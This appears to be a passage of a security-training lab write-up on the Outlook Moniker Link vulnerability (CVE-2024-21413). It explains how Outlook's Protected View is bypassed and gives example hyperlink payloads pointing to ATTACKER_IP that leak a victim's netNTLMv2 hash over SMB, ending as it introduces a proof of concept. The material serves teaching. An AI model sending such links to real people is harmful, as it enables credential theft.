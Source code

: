 <img src="./Cybersecurity_101_screenshots/Moniker_Link01.jpg" width="500" alt="Screenshot 1"> <br>

This pop-up is a result of Outlook's "Protected View". Protected View opens emails containing attachments, hyperlinks and similar content in read-only mode, blocking things such as macros (especially from outside an organisation). 

By using the `file://` Moniker Link in our hyperlink, we can instruct Outlook to attempt to access a file, such as a file on a network share (`<a href="file://ATTACKER_IP/test">Click me</a>`). The SMB protocol is used, which involves using local credentials for authentication. However, Outlook's "Protected View" catches and blocks this attempt.

The vulnerability here exists by modifying our hyperlink to include the `!` special character and some text in our Moniker Link which results in bypassing Outlook’s Protected View. For example: `<a href="file://ATTACKER_IP/test!exploit">Click me</a>`.

We, as attackers, can provide a Moniker Link of this nature for the attack. Note the share does not need to exist on the remote device, as an authentication attempt will be attempted regardless, leading to the victim's Windows netNTLMv2 hash being sent to the attacker.

Remote Code Execution (RCE) is possible because Moniker Links uses the Component Object Model (COM) on Windows. However, explaining this is currently out of scope for this room, as there is no publicly released proof of concept for achieving RCE via this specific CVE.

## Exploitation

For this attack, we will email our victim a Moniker Link similar to the one provided in the previous task. The objective, as the attacker, is to craft an email to the victim with a Moniker Link that bypasses Outlook's "Protected View", where the victim’s client will attempt to load a file from our attacking machine, resulting in the victim’s netNTLMv2 hash being captured.

But first, let’s run through a PoC I have created (which is also available on [GitHub](https://github.com/CMNatic/CVE-2024-21413))
